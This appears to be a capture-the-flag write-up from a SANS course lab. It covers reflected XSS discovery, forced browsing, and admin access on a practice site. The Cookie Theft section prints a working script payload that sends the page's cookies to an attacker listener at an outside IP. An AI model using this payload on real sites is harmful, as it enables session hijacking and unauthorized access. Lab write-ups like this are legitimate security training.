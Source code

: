 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked "Contact" in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-1](https://github.com/user-attachments/assets/554573b6-cf11-4d39-a61c-cf6ef2dabf2f)

![Contact-2](https://github.com/user-attachments/assets/b3b72e0c-c945-4e90-9853-8fc67ccccce5)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 

![Vulnerability-Discovery-1](https://github.com/user-attachments/assets/9e6c2acb-21c3-492b-bed5-c3d5f6de6aa3)

Then I tested for a different input based vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 

![Vulnerability-Discovery-2](https://github.com/user-attachments/assets/da88e1ea-a407-428c-8be7-c17f6c381823)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input.  

![Vulnerability-Discovery-3](https://github.com/user-attachments/assets/5fcfa96a-4913-4b4c-9a2b-12733f806139)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5

Typically, administrators pages are hidden from normal users. If a web server is misconfigured, you can just go straight to that hidden page with a forced browsing attack. From the question, we know the page name is five characters. With that knowledge, I find the answer.  

![Forced-Browsing-1](https://github.com/user-attachments/assets/3d6c7c7c-4629-4a5d-a35c-6871f3924e4f)


# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5

From the Vulnerability Discovery challenge, I know the site is vulnerable to a specific input based attack. In Lab 4.4 from this course, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie-Theft-1](https://github.com/user-attachments/assets/651eb28a-e077-49d8-a4f3-647beb1cce5c)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - ```<script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>```

![Cookie-Theft-2](https://github.com/user-attachments/assets/92775db5-f99f-4975-bead-2d2a6ef18727)

Going back to my attacker terminal, where the cookiecatcher PHP file is running, I can see the name of the stolen cookie. 

![Cookie-Theft-3](https://github.com/user-attachments/assets/96974117-4f82-4657-acc7-190582a682f6)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl with the -b argument to specify a token and return the content of that page as if I were logging in as an administrator. In my attacker terminal, I ran a curl command to get access to the admin page.

This returned the administrator page output. I scroll down to see the flag. 

![Unauthorized-Access-1](https://github.com/user-attachments/assets/32a2744e-00b6-4bba-a965-428df3bed6e4)

![Unauthorized-Access-2](https://github.com/user-attachments/assets/f342c0ec-3b34-451e-b4e8-10c872c88e94)
